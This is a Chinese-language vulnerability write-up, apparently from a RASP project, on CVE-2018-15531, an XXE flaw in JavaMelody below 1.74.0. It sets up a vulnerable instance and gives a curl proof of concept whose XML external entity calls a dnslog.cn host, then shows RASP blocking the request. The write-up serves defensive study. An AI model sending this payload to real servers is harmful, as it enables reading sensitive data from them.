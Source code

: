 # CVE-2018-15531

## 漏洞简介

JavaMelody是一款在生产和QA环境中对JAVA应用以及应用服务器(Tomcat、Jboss、Weblogic)进行监控的工具，可以通过图表给出监控数据，方便研发运维等找出响应瓶颈、优化响应等。
在 1.74.0版本，修复了一个XXE漏洞，漏洞编号CVE-2018-15531。攻击者利用漏洞，可以读取JavaMelody服务器上的敏感信息。

## 影响版本

版本 < 1.74.0

## 修复代码

[修复commit](https://github.com/javamelody/javamelody/commit/ef111822562d0b9365bd3e671a75b65bd0613353)

![img.png](../.vuepress/public/images/case/CVE-2018-15531/CVE-2018-15531_commit_fix.png)

## 环境准备

###  springboot 接入 javamelody 

+ 添加依赖
```xml
<dependency>
    <groupId>net.bull.javamelody</groupId>
    <artifactId>javamelody-spring-boot-starter</artifactId>
    <version>1.73.1</version>
</dependency>                        
```
+ 查看是否启动
http://localhost:8080/monitoring

![img_1.png](../.vuepress/public/images/case/CVE-2018-15531/javamelody_monitoring.png)

### dnslog 

[申请一个dns域名](http://www.dnslog.cn)  x9m8kb.dnslog.cn

postman 发送请求
![img.png](../.vuepress/public/images/case/CVE-2018-15531/dns_request.png)

或者 curl 发送请求
```shell
curl --location --request POST 'http://localhost:8080' \
--header 'Content-type: text/xml' \
--header 'SOAPAction: aaaaa' \
--data-raw '<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://www.x9m8kb.dnslog.cn">
%remote;
]>
</root>'
```

### 观察结果

![img_1.png](../.vuepress/public/images/case/CVE-2018-15531/dns_result.png)

## RASP防护

+ RASP 关键代码


![img.png](../.vuepress/public/images/case/CVE-2018-15531/CVE-2018-15531-rasp-code.png)

+ 开起 RASP 再次发起请求

![img.png](../.vuepress/public/images/case/CVE-2018-15531/request_rasp.png)

没有请求外部实体，攻击被阻断

![img.png](../.vuepress/public/images/case/CVE-2018-15531/no_data.png)



